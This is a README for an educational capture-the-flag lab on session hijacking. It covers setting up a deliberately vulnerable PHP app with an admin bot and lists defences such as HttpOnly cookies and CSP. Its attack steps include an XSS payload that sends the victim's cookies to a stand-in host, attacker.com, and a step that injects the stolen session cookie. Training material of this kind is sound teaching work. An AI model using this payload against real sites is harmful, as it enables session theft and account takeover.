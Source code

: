 
# Session Hijacking Lab - performed in march 2025 for M.tech cybersecurity MIT WPU

# **🛡️ Session Hijacking Lab – CTF Challenge**  
🚀 **Learn how to exploit and secure session hijacking vulnerabilities in web applications!**  
This lab provides a **hands-on environment** for testing **session hijacking, XSS attacks, and insecure session management** in a **controlled setup**.  

---

## **📌 Lab Overview**  
- **Target Web App**: A **deliberately vulnerable PHP application**  
- **Attacks Demonstrated**: Session Hijacking, XSS, Insecure Cookies  
- **Defenses Implemented**: Secure Cookies, CSP, Session Expiry, Regeneration  
- **Automation**: Admin bot automatically visits **comments** and gets hijacked  
- **CTF Challenge**: Users must **capture flags** by hijacking admin sessions  

---

## **🖥️ System Requirements**  
Before setting up, ensure you have:  
✅ **Linux Machine (Ubuntu/Debian recommended)**  
✅ **Apache, MySQL, PHP (LAMP stack)**  
✅ **Git** (for cloning the repository)  

---

## **🚀 Setup Instructions**  
### **1️⃣ Install Required Packages**  
Run the following commands to install the required software:  
```bash
sudo apt update && sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql unzip git -y
```

Enable the **Apache and MySQL services**:  
```bash
sudo systemctl enable apache2 && sudo systemctl enable mysql
sudo systemctl start apache2 && sudo systemctl start mysql
```

---

### **2️⃣ Clone the Repository**
```bash
cd /var/www/html
sudo git clone https://github.com/YOUR_GITHUB_USERNAME/CTF-Labs.git
mv CTF-Labs/session-hijacking vulnapp
cd vulnapp
sudo chown -R www-data:www-data /var/www/html/vulnapp
```
🔹 **Replace** `YOUR_GITHUB_USERNAME` with your actual GitHub username.  

---

### **3️⃣ Configure MySQL Database**
#### **1️⃣ Log in to MySQL**  
```bash
sudo mysql -u root -p
```
(Enter your MySQL root password)

#### **2️⃣ Create the Database and User**
```sql
CREATE DATABASE vulnapp;
CREATE USER 'vulnuser'@'localhost' IDENTIFIED BY 'password123';
GRANT ALL PRIVILEGES ON vulnapp.* TO 'vulnuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```
🔹 **Replace `password123`** with a secure password.

---

### **4️⃣ Import the Lab Database**
```bash
sudo mysql -u vulnuser -p vulnapp < vulnapp.sql
```
✅ This will **create tables** for:  
- `users` – Stores user credentials and session info  
- `flags_pool` – Holds pre-generated flags  
- `flags` – Tracks submitted flags  
- `comments` – Stores user comments  
- `leaderboard` (optional) – Used in earlier versions  

---

### **5️⃣ Configure Apache**
Make sure Apache is **configured to serve PHP pages**:  
```bash
sudo nano /etc/apache2/sites-available/000-default.conf
```
Set **DocumentRoot**:
```
DocumentRoot /var/www/html/vulnapp
<Directory "/var/www/html/vulnapp">
    AllowOverride All
    Require all granted
</Directory>
```
Save and exit (`CTRL + X`, then `Y` and `Enter`).

Reload Apache:
```bash
sudo systemctl restart apache2
```

---

## **🛠️ Running the Lab**
### **1️⃣ Start the Web Application**
Visit:  
```bash
http://YOUR_IP/vulnapp
```
🔹 Find your IP with:
```bash
ip a | grep inet
```

### **2️⃣ Start the Admin Bot**
```bash
php /var/www/html/vulnapp/admin_bot.php
```
✅ The **admin bot** will now **visit the comments page every 5 seconds**, making it vulnerable to XSS.

---

## **🎯 Challenge: Capture the Flag (CTF)**
### **Attack Steps**
1️⃣ **Post an XSS payload** in the comments:
   ```html
   <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>
   ```
2️⃣ **Steal the admin’s session ID**.  
3️⃣ **Inject the stolen session ID** into your browser:
   ```js
   document.cookie="sessionid=stolen_admin_session";
   ```
4️⃣ **Access the admin page**, retrieve the flag, and submit it.  

---

## **🛡️ Security Fixes to Prevent Attacks**
| **Defense** | **Implementation** |
|------------|------------------|
| **HttpOnly & Secure Cookies** | `setcookie("sessionid", session_id(), ["secure" => true, "httponly" => true]);` |
| **Session Regeneration** | `session_regenerate_id(true);` |
| **CSP (Content Security Policy)** | `header("Content-Security-Policy: script-src 'self'");` |
| **Auto Logout on Inactivity** | `if (time() - $_SESSION['last_activity'] > 900) session_destroy();` |

---

## **🛠️ Reset the Lab for a New Challenge**
To **clear data** and start fresh:  
```sql
TRUNCATE TABLE comments;
TRUNCATE TABLE flags;
UPDATE users SET assigned_flag = NULL WHERE username = 'admin';
UPDATE flags_pool SET is_used = FALSE;
```

---

## **📌 Future Improvements**
✅ **More challenges** (CSRF, SQLi, OAuth Misconfigurations)  
✅ **Dockerization** for **easier deployment**  
✅ **More realistic scenarios** (phishing, token theft)  

---

## **📞 Need Help?**
Open an **issue on GitHub** or contact me at **saurabhkoravi01@gmail.com**.  


🚀 **Happy hacking & securing!** 🔥
